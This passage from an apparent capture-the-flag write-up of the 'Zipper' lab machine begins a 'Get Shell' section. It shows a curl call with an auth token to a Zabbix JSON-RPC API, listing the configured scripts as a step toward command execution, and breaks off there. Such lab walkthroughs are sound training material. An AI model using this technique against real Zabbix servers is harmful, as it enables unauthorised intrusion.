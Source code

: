 #### Get Shell

In the [API section above](#api-overview), I listed the hosts that this
instance of Zabbix is controlling. One was called Zabbix, and the other
Zipper. If I assume that I'm supposed to target Zipper (since it's the
HTB name for this challenge), I'll grab the hostid of 10106.

I'll get a list of the scripts currently set:



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{}}' | jq .
    {
      "jsonrpc": "2.0",
      "result": [
        {
          "scriptid": "1",
          "name": "Ping",
          "command": "/bin/ping -c 3 {HOST.CONN} 2>&1",
          "host_access": "2",
          "usrgrpid": "0",
          "groupid": "0",
          "description": "",
          "confirmation": "",
          "type": "0",
          "execute_on": "1"
        },
        {
          "scriptid": "2",
          "name": "Traceroute",
          "command": "/usr/bin/traceroute {HOST.CONN} 2>&1",
          "host_access": "2",
          "usrgrpid": "0",
          "groupid": "0",
          "description": "",
          "confirmation": "",
          "type": "0",
          "execute_on": "1"
        },
        {
          "scriptid": "3",
          "name": "Detect operating system",
          "command": "sudo /usr/bin/nmap -O {HOST.CONN} 2>&1",
          "host_access": "2",
          "usrgrpid": "7",
          "groupid": "0",
          "description": "",
          "confirmation": "",
          "type": "0",
          "execute_on": "1"
        }
      ],
      "id": 1
    }
